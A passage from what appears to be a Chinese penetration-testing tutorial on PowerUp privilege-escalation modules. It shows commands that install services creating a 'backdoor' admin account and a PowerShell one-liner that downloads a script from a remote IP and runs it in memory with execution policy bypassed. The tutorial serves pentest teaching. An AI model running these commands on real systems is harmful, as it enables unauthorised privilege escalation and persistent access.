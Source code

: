 输出一个自定义命令并且能够自删除的bat文件到$env:Tempdebug.bat，并输出一个能够启动这个bat文件的dll。

18.Write-UserAddMSI

生成一个安装文件，运行这个安装文件，则弹出添加用户的框。

执行方式：

```
PS C:> Write-UserAddMSI
```

![img](https://img-blog.csdnimg.cn/20190108183502658.png)

19.Write-ServiceBinary

预编译C#服务的可执行文件。默认创建一个默认管理员账号。可通过Command定制自己的命令。

执行方式：

```
PSC:>Write-ServiceBinary -ServiceName VulnSVC # 添加默认账号
PSC:>Write-ServiceBinary -ServiceName VulnSVC -UserName "TESTLABjohn" # 指定添加域账号
PSC:>Write-ServiceBinary-ServiceName VulnSVC -UserName backdoor -Password Password123! # 指定添加用户，用户密码以及添加的用户组
PSC:> Write-ServiceBinary -ServiceName VulnSVC -Command "net ..." # 自定义执行命令
```

20.Install-ServiceBinary

通过Write-ServiceBinary写一个C#的服务用来添加用户。

执行方式：

```
PSC:> Install-ServiceBinary -ServiceName DHCP
PSC:> Install-ServiceBinary -ServiceName VulnSVC -UserName "TESTLABjohn"
PSC:>Install-ServiceBinary -ServiceName VulnSVC -UserName backdoor -Password Password123!
PSC:> Install-ServiceBinary -ServiceName VulnSVC -Command "net ..."
```

Write-ServiceBinary与Install-ServiceBinary不同的是前者生成可执行文件，后者直接安装服务。

**0×02.使用module渗透实例**

模块很多不能一一介绍，有针对性的介绍几个常用模块的实战应用。

1.Invoke-AllChecks，Install-ServiceBinary，Get-ServiceUnquoted,Test-ServiceDaclPermission,Restore-ServiceBinary

先加载Powerup脚本，然后执行Invoke-AllChecks，脚本将会进行所有的检查。

使用IEX下载在内存中加载此脚本，执行如下命令，脚本将会进行所有的检查，如下图所示。

```
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://192.168.31.247/PowerUp.ps1');Invoke-AllChecks”
```

温习下知识点：

-NoProfile(-NoP)：PowerShell控制台不加载当前用户的配置
